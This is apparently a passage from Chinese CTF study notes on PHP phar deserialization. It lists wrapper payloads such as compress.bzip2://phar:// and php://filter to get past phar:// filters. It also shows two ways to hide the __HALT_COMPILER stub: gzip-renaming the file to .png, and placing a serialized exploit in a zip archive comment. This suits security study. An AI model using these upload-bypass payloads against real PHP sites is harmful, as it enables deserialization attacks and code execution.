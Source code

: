 ```
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///home/sx/test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
// 还可以使用伪协议的方法绕过
php://filter/resource=phar:///test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### 绕过__HALT_COMPILER特征检测

因为phar中的`a stub`字段必须以`__HALT_COMPILER();`字符串来结尾，否则`phar`扩展将无法识别这个文件为`phar`文件，所以这段字符串不能省略，只能绕过

**方法一：**

首先将 phar 文件使用 gzip 命令进行压缩，可以看到压缩之后的文件中就没有了`__HALT_COMPILER()`，将 phar.gz 后缀改为 png（png文件可以上传）

![image-20230717014558838](daydayup.assets/image-20230717014558838.png)

```
filename=phar://pharppp.phar.gz/pharppp.phar
```

**方法二**

将phar的内容写进压缩包注释中，也同样能够反序列化成功，压缩为zip也会绕过该正则

```
$phar_file = serialize($exp);
    echo $phar_file;
    $zip = new ZipArchive();
    $res = $zip->open('1.zip',ZipArchive::CREATE); 
    $zip->addFromString('crispr.txt', 'file content goes here');
    $zip->setArchiveComment($phar_file);
    $zip->close();
```

这篇文章在php源码角度给出分析：https://www.anquanke.com/post/id/240007

> phar反序列化过程中，对metadata进行解析的时候会进行`php_var_unserialize()`将Phar中的metadata进行反序列化

<u>*ctfshow --- 276*</u>

<u>*BUUCTF --- [NCTF2019]phar matches everything*</u>
